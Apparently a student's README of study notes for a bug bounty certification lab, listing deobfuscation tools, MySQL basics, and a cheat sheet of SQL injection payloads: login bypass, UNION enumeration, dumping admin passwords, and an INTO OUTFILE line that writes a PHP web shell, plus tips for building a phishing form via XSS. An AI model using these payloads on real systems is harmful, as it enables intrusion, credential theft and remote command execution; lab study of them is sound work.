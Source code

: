 # CBBH
Stuff for CBBH


  JavaScript Deobsfucation - Tools
    
    https://beautifier.io/
    http://www.jsnice.org/


  Intro to MySQL

    Connect to database
    sudo service mysql start
    
    mysql -h 94.237.62.195 -P 39097 -u root --password
    -h : for host/target
    -P : for custom port
    -u : for user
    --password : for password
  
    Find stuff with queries
    
    select * from employees where first_name LIKE 'Bar%' AND hire_date='1990-01-01';
    LIKE : You may use when searching for a substring in string (i.e Bar = Barton).
    % : Starts with (used in mysql)

    ')+or+id=4--+-

    Database enumeration

    #Get it without line breaking
    '+union+select+1,group_concat(table_name),3,4+from+information_schema.tables--+-

    #Get it nicier
    '+union+select+1,table_schema,table_name,4,5+from+information_schema.tables--+-
    
    #Writing files
    '+union+select+null,null,null,"<?php+system($_REQUEST['cmd']);?>"+into+outfile+"/var/www/html/blah2.php"--+-

    #Get data from whithin another database
    '+union+select+1,username,password,4,5+from+backup.admin_bk--+-

  Cross-Site Scripting

    #When creating a phishing form the submit button has to be just like so
    <input type="submit" name="submit" value="login">

    #That's a way to remove unanted html stuff from the page [gotta wrap it between script tags]
    document.getElementById("id-here").remove();
    
